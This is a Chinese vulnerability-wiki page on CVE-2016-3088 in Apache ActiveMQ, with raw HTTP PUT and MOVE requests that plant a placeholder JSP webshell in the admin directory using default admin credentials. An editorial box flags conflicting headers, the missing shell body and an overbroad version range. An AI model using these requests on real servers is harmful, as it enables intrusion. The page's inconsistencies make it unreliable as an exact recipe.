



# （CVE-2016-3088）ActiveMQ应用漏洞

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：Fileserver启用、可写Web路径；本文JSP触发需admin凭据，非文件写入本体总需登录
- 证据范围：上传不解析证明没权限的三次断言错误，可能目录无JSP处理器/文件损坏等；请求文本不完整

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- MOVE同时Content-Length17和0且body shell冲突
- PUT仅shell占位无JSP正文/长度，不能复现命令执行
- 影响5.x至5.14含移除Fileserver版本，需纠正
- 204只证明操作接受不是脚本执行；重复句和图片路径残文应清理

### 操作风险与资料使用

- 含落盘脚本或账户创建：会留下持久状态。记录本次生成的路径或账户，测试后清理这些对象并撤销关联令牌；不要删除既有业务对象。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

一、漏洞简介
------------

ActiveMQ是一款流行的开源消息服务器。默认情况下，ActiveMQ服务是没有配置安全参数。恶意人员可以利用默认配置弱点发动远程命令执行攻击，获取服务器权限，从而导致数据泄露。

二、漏洞影响
------------

Apache ActiveMQ 5.x \~ 5.14.0

三、复现过程
------------

漏洞是需要登录之后才可以执行

漏洞利用就是/fileserver/有put上传权限，/admin/有执行权限，可找到绝对路径，使用move移动文件到/admin/

下面就是两步走，先是利用put上传文件到/fileserver/,然后移动到move到admin下面

所有返回为204就代表是成功，有个坑点：不要put同文件名的文件上去

如果上传不解析的话，则是证明没有权限！！！

如果上传不解析的话，则是证明没有权限！！！

如果上传不解析的话，则是证明没有权限！！！

ActiveMQ默认开启PUT方法，当fileserver存在时我们可以上传jspwebshell。

ActiveMQ应用漏洞/media/rId24.png)

    PUT /fileserver/shell.jsp HTTP/1.1
    Host: 192.168.197.25:8161
    User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Connection: keep-alive
    Upgrade-Insecure-Requests: 1
    Authorization: Basic YWRtaW46YWRtaW4=

    shell

利用 MOVE 方法将 Webshell 移入 admin/ 目录

ActiveMQ应用漏洞/media/rId25.png)

    Request Raw:
    MOVE /fileserver/shell.jsp HTTP/1.1
    Destination:file:/data/apache-activemq-5.7.0/webapps/admin/shell.jsp
    Host: 192.168.197.25:8161
    User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Connection: keep-alive
    Upgrade-Insecure-Requests: 1
    Authorization: Basic YWRtaW46YWRtaW4=
    Content-Length: 17
    Content-Length: 0

    shell

ActiveMQ应用漏洞/media/rId26.png)
